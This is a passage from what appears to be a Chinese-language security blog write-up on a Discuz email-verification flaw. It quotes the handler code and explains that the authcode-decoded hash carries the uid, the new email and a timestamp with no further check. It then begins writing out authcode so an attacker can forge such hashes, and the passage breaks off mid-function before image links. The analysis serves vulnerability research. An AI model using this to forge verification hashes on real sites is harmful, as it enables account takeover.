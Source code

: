 ```
	} elseif($ucresult == -4) {
		showmessage('profile_email_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -5) {
		showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -6) {
		showmessage('profile_email_duplicate', '', array(), array('return' => true));
	}
	if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
		$membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
		$setarr['groupid'] = $membergroup['groupid'];
	}
	updatecreditbyaction('realemail', $uid);
	C::t('common_member')->update($uid, $setarr);
	C::t('common_member_validate')->delete($uid);
	dsetcookie('newemail', "", -1);

	showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
} else {
	showmessage('email_check_error', 'index.php');
}

?>
```

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。
```
list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
```

然后经过一次判断
```
if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
```

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

```
<?php
        //Enter your code here, enjoy!

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {

	$ckey_length = 4;

	$key = md5($key ? $key : UC_KEY);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png